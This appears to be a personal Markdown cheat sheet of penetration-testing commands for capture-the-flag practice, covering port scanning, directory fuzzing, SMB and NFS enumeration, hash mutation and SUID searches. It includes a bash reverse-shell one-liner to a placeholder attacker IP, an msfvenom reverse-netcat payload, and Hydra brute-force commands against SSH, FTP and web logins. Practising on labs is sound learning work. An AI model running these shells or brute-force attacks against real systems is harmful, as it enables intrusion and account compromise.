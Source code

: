 
# CLI
## rdp: 
`xfreerdp /u:{username} /p:{password} /v:{ip} /dynamic-resolution`
## netcat:
`nc -lvnp <PORT>`
- `-l`: Listen mode.
    
- `-v`: Verbose output (optional but recommended).
    
- `-n`: Disable DNS resolution (faster).
    
- `-p <PORT>`: Specify the port to listen on (e.g., `4444`).

Then
`bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'`
// Research more ways to connect
## Gobuster:
- Directories
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/fuzz_php_special.txt
```
```
gobuster dir -u http://ip:port -w /home/Dragon/Code/wordlists/robots.txt
```
- Sub Domains
`gobuster dns -d ip -w /home/Dragon/Code/wordlists/subdomain.txt`


## Rustscan:
`rustscan -a ip -r 1-65535 --ulimit 20000`

Target a specific port:
`rustscan -a ip -p port -- -A -sC`

## tcpdump
- listen {This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.}
`sudo tcpdump ip proto \\icmp -i tun0`

![[Pasted image 20250202160630.png]]

## metasploit
- netcat rev shell
`msfvenom -p cmd/unix/reverse_netcat lhost=10.8.30.74 lport=4444 R`
## Hydra:
`hydra -L /home/Dragon/Code/wordlists/rockyou.txt -p admin ip`

`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt ssh://ip -V -I -t 64` 

`hydra -t 4 -l dale -P home/Dragon/Code/wordlists/rockyou.txt -vV ip ftp`

-t 4                    Number of parallel connections per target  
-l [user]               Points to the user who's account you're trying to compromise  
-P [path to dictionary] Points to the file containing the list of possible passwords  
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for                             each attempt
## ffuf
`ffuf -u ip../FUZZ.fileExtension -w /home/Dragon/Code/wordlists/raft-small-words.txt`
- Note: run in full screen

- Post form
`hydra -l username -P /home/Dragon/Code/wordlists/rockyou.txt lookup.thm http-post-form "/login:username=^USER^&password=^PASS^F:wrong password" -V -I -t 64`


## Hashcat
- cd in location of pswd list
`hashcat --stdout -r /home/Dragon/Code/wordlists/hashcat_rules/best64.rule password_list.txt > mutated_passwords.txt`

## Enum4linux

`enum4linux -h` : Manual

```
enum4linux -U -o 192.168.1.200
```
**TAG**            **FUNCTION**  
- U            get userlist  
- M            get machine list  
- N             get namelist dump (different from -U and-M)  
- S             get sharelist  
- P             get password policy information  
- G             get group and member list
- a             all of the above (full basic enumeration)

### SMB client 
`smbclient //[IP]/[SHARE]`

Followed by the tags:

-U [name] : to specify the user

-p [port] : to specify the port

more "filename" to cat

## NFS
- get shares
`/usr/sbin/showmount -e ip`
- mount
sudo mount -t nfs ip:share /mnt -nolock
## General:
`find / -name "*flag*" 2>/dev/null`
`find / -perm -u=s -type f 2>/dev/null`
`sudo find / -type d -name 'dirName'`

# Notes:
## ssh with RSA
Use private key
Do: chmod 600 filename
Then: 
	ssh -i  rsaprivefilename user@ip


# Pics
- telnet
![[Pasted image 20250202161214.png]]
